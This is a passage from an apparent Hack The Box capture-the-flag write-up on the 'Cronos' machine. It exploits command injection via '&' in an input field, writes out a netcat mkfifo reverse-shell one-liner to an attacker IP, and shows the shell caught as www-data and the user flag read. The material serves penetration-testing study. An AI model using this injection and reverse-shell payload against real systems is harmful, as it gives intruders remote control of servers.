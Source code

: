 That works too, let's try another command (I sent it back to the browser for a better view), I tried the `ls` command:

![Untitled](/assets/images/2021-11-03-cronos/Untitled2.png)

Using the "&" sign, you can add a second command that will be executed. With this, I can get a reverse shell.

```bash
8.8.8.8 & rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.17.28 4444 >/tmp/f
```

I look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.13] 34044
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

A shell as www-data spawned.

## User Flag

---

I should be able to read the userflag:

```bash
www-data@cronos:/$ cd /home
www-data@cronos:/home$ ls
noulis
www-data@cronos:/home$ cd noulis
www-data@cronos:/home/noulis$ ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
51**************************e33b

```
